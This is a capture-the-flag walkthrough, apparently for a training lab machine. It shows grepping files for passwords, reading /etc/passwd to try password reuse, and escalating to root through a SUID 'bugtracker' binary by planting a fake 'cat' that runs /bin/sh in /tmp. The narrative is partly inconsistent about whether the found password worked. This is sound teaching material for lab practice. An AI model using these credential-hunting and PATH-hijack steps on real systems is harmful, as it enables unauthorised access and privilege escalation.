 ```
cat * | grep -i passw*
```

*We indeed got the password: ```MEGACORP_4dm1n!!```. We can check the available users are on the system by reading the ```/etc/passwd``` file so we can try a password reuse of this password.*

```
cat /etc/passwd
```

*We found user robert. In order to login as this user, we use the su command: ```su robert```.*

*Unfortunately, that wasn't the password for user ```robert```. Let's read one by one the files now. We are going to start with db.php which seems interesting. Now that we got the password we can successfully login and read the user.txt flag which can be found in the home directory of ```robert```*

*Before running any privilege escalation or enumeration script, let's check the basic commands for elevating privileges like ```sudo``` (or ```sudo -l```) and ```id```.*

*We observe that user ```robert``` is part of the group ```bugtracker```. Let's try to see if there is any binary within that group:*

```
find / -group bugtracker 2>/dev/null
```

*We found a file named ```bugtracker```. We check what privileges and what type of file is it:

```
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
```

*There is a suid set on that binary, which is a promising exploitation path.*

**Commonly noted as SUID (Set owner User ID), the special permission for the user access level has a single function: A file with SUID always executes as the user who owns the file, regardless of the user passing the command. If the file owner doesn't have execute permissions, then use an uppercase S here. In our case, the binary 'bugtracker' is owned by root & we can execute it as root since it has SUID set.**

*We will run the application (issuing ```bugtracker```) to observe how it behaves.*

**The tool is accepting user input as a name of the file that will be read using the ```cat``` command, however, it does not specifies the whole path to file ```cat``` and thus we might be able to exploit this.**

*We will navigate to /tmp directory and create a file named cat with the following content: ```/bin/sh```*

```
echo '/bin/sh' > cat
```

*We will then set the execute privileges:*

```
chmod +x cat
```

*In order to exploit this we can add the /tmp directory to the PATH environmental variable.*
